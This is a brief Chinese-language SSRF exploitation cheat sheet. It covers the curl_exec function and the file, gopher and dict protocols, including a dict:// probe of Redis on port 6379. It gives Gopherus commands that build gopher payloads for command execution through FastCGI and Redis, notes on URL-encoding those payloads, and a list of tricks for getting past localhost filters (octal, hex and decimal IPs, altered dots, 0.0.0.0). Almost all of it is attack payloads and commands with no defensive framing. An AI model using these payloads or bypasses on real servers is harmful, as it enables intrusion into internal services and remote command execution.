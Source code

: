涉及函数

```php
curl_exec() curl_exec函数⽤于执⾏指定的cURL会话。
```

## 涉及协议

```bash
file://
gopher://     #gopher://<host>:<port>/<gopher-path>
dict:// # dict://127.0.0.1:6379 //探测redis是否存活
```

## gopher
[gopher协议的利用](https://mp.weixin.qq.com/s/lVzMSXn42SjTPb5EnY8NgA)

如果 redis 有验证用 `gophper-redis-auth.py`

```sh
python2 gopherus.py --exploit fastcgi
参数1： /var/www/html/index.php
参数2cmd: ls
python2 gopherus.py --exploit redis
参数1： php
参数2cmd: ls
```

- 生成的 payload 再次 url 编码,
- encode all special chars (Cyberchef) 再使用

## 127.0.0.1 绕过

```bash
url=http://xxx@127.0.0.1
1②7.0.0.1
127。 0。 0。 1
127.1
0177.0.0.1 //⼋进制
0x7f.0.0.1 //⼗六进制
2130706433 //⼗进制
url=http://0/flag.php
0.0.0.0
```
